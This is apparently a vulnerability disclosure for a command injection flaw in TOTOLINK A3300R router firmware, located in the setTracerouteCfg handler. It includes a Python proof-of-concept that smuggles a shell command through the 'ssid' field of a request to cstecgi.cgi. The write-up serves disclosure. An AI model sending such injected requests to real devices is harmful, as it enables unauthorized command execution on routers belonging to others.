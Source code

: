 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

## Affected version

A3300R V17.0.0cu.557_B20221024

## Vulnerability details

In the A3300R V17.0.0cu.557_B20221024 firmware has a command injection vulnerability in the `setTracerouteCfg` function. The `v2` variable receives the `command` parameter from a POST request. However, since the user can control the input of `command`, the statement `doSystem` can cause a command injection vulnerability.

![image-20240722023558424](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240722023558424.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"topicurl":"setTracerouteCfg","ssid":";ls -al ../ ;"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721213628055](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721213628055.png)
